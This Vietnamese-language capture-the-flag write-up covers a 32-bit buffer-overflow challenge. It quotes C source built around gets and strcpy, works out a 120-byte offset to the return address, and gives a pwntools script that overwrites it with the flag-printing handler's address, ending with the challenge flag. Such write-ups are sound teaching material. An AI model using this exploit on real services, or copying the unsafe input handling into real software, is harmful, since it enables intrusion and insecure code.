 **#1. Tìm lỗi**
   Ta có file source như sau:

`#include <stdio.h>`
`#include <stdlib.h>`
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **aragv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}`

   Đọc qua file source thì ta thấy có câu lệnh gets và hàm sigsegv_handler(hàm lấy flag) -> Nghĩ ngay đến lỗi bof
   Sử dụng lệnh 'checksec' thì ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof
   ![checksec.png](photo/checksec.png)

**2. Ý tưởng**

   Chúng ta sẽ nhập tràn biến buf1 nhờ lệnh gets đến ret rồi chèn địa chỉ hàm sigsegv_handler vào

**3. Viết script**

   Sử dụng lệnh 'file' kiểm tra file thực thi
   ![file.png](photo/file.png)
   Ta thấy là file 32bit
   ![buf1.png](photo/buf1.png)
   Địa chỉ hiện tại của buf1 là: ebp - 0x74 -> Khoảng cách từ buf1 đến ret là: 0x74 + 0x4 = 120
   ![function_flag.png](photo/function_flag.png)
   Ta có địa chỉ hàm sigsegv_handler là: 0x5655630d
   Vậy ta có script như sau: 

`from pwn import *

r = remote("saturn.picoctf.net", 65355)

payload = b'a'*120 + p32(0x5655630d)
r.sendline(payload)
r.interactive()`

**4. Lấy flag**

   ![flag.png](photo/flag.png)
   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
